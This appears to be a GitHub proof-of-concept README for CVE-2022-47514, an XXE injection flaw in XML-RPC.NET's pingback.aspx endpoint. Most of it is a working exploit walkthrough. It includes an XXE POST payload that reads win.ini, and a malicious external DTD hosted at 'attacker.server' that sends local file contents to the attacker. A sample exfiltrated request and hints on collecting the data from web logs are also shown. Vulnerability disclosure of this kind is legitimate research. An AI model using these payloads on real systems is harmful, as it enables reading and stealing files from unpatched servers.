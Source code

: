 # [CVE-2022-47514] Proof of Concept: XML-RPC.NET XXE - File Exfiltration
**CVE (+Exploit) Author:** Farzan Karimi

**CVE Summary:**  An XML external entity (XXE) injection vulnerability in http://XML-RPC.NET before 2.5.0 allows remote authenticated users to conduct server-side request forgery (SSRF) attacks, as demonstrated by a pingback.aspx POST request. While the POST response appears to be a limited XXE file enumeration vulnerability, it can be elevated to full file exfiltration using the following steps.

**CVE Details:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-47514

# PoC for CookComputing XML-RPC.NET XXE <2.5.0
1. Identify a vulnerable pingback.aspx endpoint. Identifying pingback endpoints with "CookComputing" <2.5 version footers tend to be strong signals.

![xml-rpc-1](https://user-images.githubusercontent.com/3679232/207168120-9465cd3d-2f3d-4ae0-b308-090de2b2501f.png)

2. Leverage the following XXE POST payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
```

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207168416-9c801f2f-27ca-47c4-a5df-a4f66af98a58.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)

# 12/29 Update: File Exfiltration

*Summary:* Some XXEs don't directly return file contents in HTTP server responses. These cases don't actually demonstrate how the true impact of how the vulnerability could be exploited. What increases this vulnerability to high severity is the ability exfiltrate file data. The following steps demonstrate how an attacker can still achieve file exfiltration by hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload. 

5. Host a malicious DTD on a file server the attacker controls. The system should host a malicious XML, containing:

```
<!ENTITY % meta "<!ENTITY serverfile SYSTEM 'https://attacker.server/public/evil.xml?r=%winfile;'>">  
%meta; 

```

When this XML document is parsed, the token &winfile; will be replaced with the contents of the win.ini file of the system where the parsing took place. The entity “winfile” in this XML document is an example of an external entity since it’s read from a separate resource. In cases where user-controlled XML is parsed on a server and the XML is then reflected to the user, this can allow malicious users to see the contents of privileged files on the server itself.

6. Craft the POST payload to post the entity as a variable to your server, as so:

```
<?xml version="1.0"?> 

<!DOCTYPE doc PUBLIC "blah" "https://attacker.server/public/evil.xml" [ 
  <!ENTITY % winfile SYSTEM "file://c:/windows/win.ini"> 
]> 

<doc> 
  &serverfile; 
</doc> 
```

Burp request:
![xxe-exfil-payload](https://user-images.githubusercontent.com/3679232/210012497-d0ed37f8-3e95-4231-971d-03a83629c1f8.png)


7. Because the parameter entity token is being used in a normal literal which then composes a system literal, it is parsed and expanded. This makes a request to a URL like:

```
http://www.attacker.server/?r=;%20for%2016-bit%20app%20support%0D%0A%5Bfonts%5D%0D%0A%5Bextensions%5D%0D%0A%5Bmci%20extensions%5D%0D%0A%5Bfiles%5D%0D%0A%5BMail%5D%0D%0AMAPI=1%0D%0A%5BMCI%20Extensions.BAK%5D%0D%0Am2v=MPEGVideo%0D%0Amod=MPEGVideo
```

And the targetted file (e.g. win.ini) is exfiltrated and written to the attacker's web log:

![xxe-data-exfil](https://user-images.githubusercontent.com/3679232/210012160-eab20862-cd15-4c6a-aa29-41001ec17519.png)

Note: if using Azure to host your evil XML, it may take time for the file to appear in your Azure web logs. Based on experience, replaying the request multiple times may trigger Azure garbage collection to update the logs sooner.

# Mitigation
Installations using a version prior to version 2.5.0 should update to version 2.5.0. 
